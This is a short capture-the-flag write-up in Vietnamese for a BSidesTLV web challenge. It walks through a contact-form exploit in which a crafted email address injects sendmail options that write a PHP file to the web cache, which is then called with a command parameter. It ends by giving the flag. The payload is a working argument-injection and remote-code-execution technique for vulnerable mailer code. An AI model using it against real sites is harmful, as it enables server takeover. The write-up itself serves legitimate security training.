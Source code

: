 Vào trang chủ của challange, kéo xuống form điền của phần <strong>Contact Us</strong><br/>
Trong form điền, điền các trường như sau<br/>
<strong>Name:</strong> 1337 H4X0r <br/>
<strong>Email:</strong> "attacker\" -oQ/tmp/ -X/var/www/cache/phpcode.php  some"@email.com <br/>
<strong>Message:</strong> &lt;?php phpinfo(); ?&gt;<br/>
<strong>Capcha:</strong> Đã có sẵn</br>
Tắt <code>type=email</code> thành <code>type=text</code> trong trường <strong>Email</strong><br/>
Gửi form đi, sẽ có trả về <strong> You are so close ....</strong> và 1 file php<br/>
Truy cập địa chỉ <code>view-source:http://challenges.bsidestlv.com:8080/cache/<tên file php>.php?cmd=id</code><br/>
Lục trong đó sẽ có cờ<br/>
Cờ là <code>BSidesTLV{K33pY0urM4il3rFullyP4tch3D!}</code><br/>

